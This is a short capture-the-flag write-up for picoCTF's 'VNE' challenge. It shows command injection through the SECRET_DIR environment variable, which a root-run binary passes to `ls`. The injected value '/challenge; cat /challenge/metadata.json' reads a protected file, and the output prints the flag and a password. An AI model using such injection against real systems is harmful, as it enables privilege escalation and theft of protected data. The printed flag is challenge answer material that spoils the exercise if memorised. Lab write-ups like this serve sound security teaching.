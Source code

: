 # VNE
Challenge instance has a binary `bin` to run in home directory, there is also a `/challenge` that we can't access, 
when running `bin` we get
```
Error: SECRET_DIR environment variable is not set
```

Set the SECRET_DIR variable to "/challenge"

```

export SECRET_DIR="/challenge"
```

Run again

```
Listing the content of /challenge as root: 
config-box.py  metadata.json  profile
```

`metadata.json` seems promising, but we can't access it because we don't have permission to access `/challenge`
`bin` lists directories at root, so maybe we can get it to call something else. Setting `SECRET_DIR` to "--help"
results in bin printing the help for `ls`, so it probably just appends whatever is in `SECRET_DIR` to `ls`. If we
add a `;` we can run another command.

```
export SECRET_DIR="/challenge; cat /challenge/metadata.json"
./bin
Listing the content of /challenge; cat /challenge/metadata.json as root: 
config-box.py  metadata.json  profile
{"flag": "picoCTF{Power_t0_man!pul4t3_3nv_1ac0e5a3}", "password": "af86add3"}
```
